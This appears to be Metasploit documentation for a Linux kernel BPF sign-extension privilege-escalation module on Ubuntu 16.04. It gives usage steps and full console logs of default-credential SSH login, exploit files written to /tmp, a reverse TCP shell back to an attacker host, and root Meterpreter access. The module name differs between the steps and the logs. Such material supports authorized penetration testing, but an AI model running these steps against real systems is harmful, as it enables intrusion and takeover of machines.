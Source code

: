 ## Vulnerable Application

This module exploits the Berkeley Packet Filter in the Linux kernel prior to 4.13.0,
which contains a vulnerability where it may improperly perform sign extentension.
This can be utilized to priv escalate.  However, this module's offsets and
other parameters have only been set and tested against Ubuntu 16.04.

This module has been successfully tested on:

  * Ubuntu 16.04 with the 4.4.0-116 kernel

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_extension_priv_esc`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-116-generic)

#### Initial Access

  ```
  resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
  resource (ubuntu.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (ubuntu.rb)> set username ubuntu
  username => ubuntu
  resource (ubuntu.rb)> set password ubuntu
  password => ubuntu
  resource (ubuntu.rb)> exploit
  [+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
  [*] Command shell session 1 opened (1.1.1.1:36273 -> 2.2.2.2:22) at 2018-03-23 20:42:04 -0400
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing vQIIRofN to /tmp/vQIIRofN.c
  [*] Max line length is 65537
  [*] Writing 7797 bytes in 1 chunks of 26837 bytes (octal-encoded), using printf
  [*] Writing iuRJiXBf to /tmp/iuRJiXBf
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003869aa00
  [*] uidptr = ffff8800354fb244
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vQIIRofN.c
  [+] Deleted /tmp/vQIIRofN
  [+] Deleted /tmp/iuRJiXBf
  
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  ```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [-] gcc is not installed.  Compiling will fail.
  [*] Dropping pre-compiled exploit on system
  [*] Writing vsQTwocG to /tmp/vsQTwocG
  [*] Max line length is 65537
  [*] Writing 14040 bytes in 1 chunks of 36802 bytes (octal-encoded), using printf
  [*] Writing JDQDHtEG to /tmp/JDQDHtEG
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003a8a3800
  [*] uidptr = ffff88003d276304
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vsQTwocG
  [+] Deleted /tmp/JDQDHtEG
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```

